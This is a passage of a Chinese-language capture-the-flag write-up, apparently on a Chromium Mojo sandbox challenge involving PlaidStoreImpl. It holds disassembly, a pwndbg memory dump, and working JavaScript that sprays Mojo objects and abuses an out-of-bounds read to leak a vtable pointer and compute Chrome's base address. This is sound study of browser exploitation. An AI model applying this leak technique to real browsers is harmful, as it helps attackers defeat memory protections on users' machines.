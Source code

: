 ```
   0x5555591ac4a0    mov    rbx, rdi
   0x5555591ac4a3    mov    edi, 0x28
   0x5555591ac4a8    call   0x55555ac584b0 <0x55555ac584b0> => operator new
 
   0x5555591ac4ad    lea    rcx, [rip + 0x635e2ec] => <vtable for content::PlaidStoreImpl+16>
   0x5555591ac4b4    mov    qword ptr [rax], rcx => vtable
   0x5555591ac4b7    mov    qword ptr [rax + 8], rbx => render_frame_host
   0x5555591ac4bb    lea    rcx, [rax + 0x18]
   0x5555591ac4bf    xorps  xmm0, xmm0
   0x5555591ac4c2    movups xmmword ptr [rax + 0x18], xmm0
   0x5555591ac4c6    mov    qword ptr [rax + 0x10], rcx
   0x5555591ac4ca    mov    qword ptr [rbp - 0x20], rax
```

```
pwndbg> x/10gx 0x3bcb6cdfe720
0x3bcb6cdfe720:	0x000055555f50a7a0 <= vtable    	0x00003bcb6cd45400 <= render_frame_host
0x3bcb6cdfe730:	0x00003bcb6ccd2870 <= data_store_	0x00003bcb6ccd2870
```

##### 利用OOB来做leak

我们通过for循环在store之后来进行new PlaidStoreImpl，最后在get来泄漏内存，这样主要是为了使PlaidStoreImpl在分配的时候和data相邻，这样我们就可以泄漏出vtable地址，我们在调试的时候可以看到vtable是0x7a0结尾的，我们在泄漏的内容中找到对应的地址，减去偏移就可以得到chrome的基地址。
```
    var ps_list = [];
    var code_leak = 0;
    var render_leak;
    for(let i = 0; i < 100; i++){
        var tmp_ps_ptr = new blink.mojom.PlaidStorePtr();
        Mojo.bindInterface(blink.mojom.PlaidStore.name, mojo.makeRequest(tmp_ps_ptr).handle, "context", true);
        await tmp_ps_ptr.storeData("aaaa", new Uint8Array(0x28).fill(0x30+i))
        ps_list.push(tmp_ps_ptr);
    }
    for(let i = 0; i < 100; i++){
        if(code_leak != 0){
            break;
        }
        var tmp_ps_ptr = ps_list[i];
        let r = (await tmp_ps_ptr.getData("aaaa", 0x100));
        let leak = r.data;
        for(let i = 0x28; i < 0x100; i = i + 8){
            let tmp_leak = b2i(leak.slice(i, i+8));
            if(hex(tmp_leak & 0xfff) == "0x7a0" ){
                code_leak = tmp_leak;
                i += 8;
                render_leak = b2i(leak.slice(i, i+8));
                success_value("render_frame_host: ", render_leak);
                break;
            }
        }
    }
    if(code_leak == 0){
        throw 1;
    }
    var code_base = code_leak-0x9fb67a0;
    success_value('code base: ', code_base);
```
